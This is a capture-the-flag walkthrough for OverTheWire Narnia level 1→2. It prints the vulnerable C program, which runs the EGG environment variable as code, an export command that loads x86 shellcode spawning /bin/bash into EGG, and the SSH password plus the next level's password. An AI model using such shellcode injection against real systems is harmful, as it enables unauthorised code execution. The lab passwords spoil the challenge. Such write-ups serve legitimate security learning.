 # Level 1 → Level 2

## Solution
```
ssh narnia1@narnia.labs.overthewire.org -p 2226
```
```
eaa6AjYMBB
```
```
cd /narnia ; ls -al
```
```
cat narnia1.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
   */
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

I already know this form of `int (*ret)();`, it's a **pointer** to function. Because the `getenv` function returns an address (to the contents of `EGG`, actually to some string), we'll want to make `EGG` a type of memory pointer that prints the password.

So I looked for [**shellcode**](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/) to run bash and found [this](https://shell-storm.org/shellcode/files/shellcode-606.html).

![](0.png)

I then looked for a way to put hexadecimal bytes into an environment variable and found the answer [here](https://www.linuxquestions.org/questions/linux-general-1/how-to-export-special-characters-into-environment-variables-457813/). I made sure that there is no `\x00` in the shellcode, and that's all:

```
export EGG=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```
```
./narnia1
```

![](1.png)


## Password for the next level:
```
Zzb6MIyceT
```
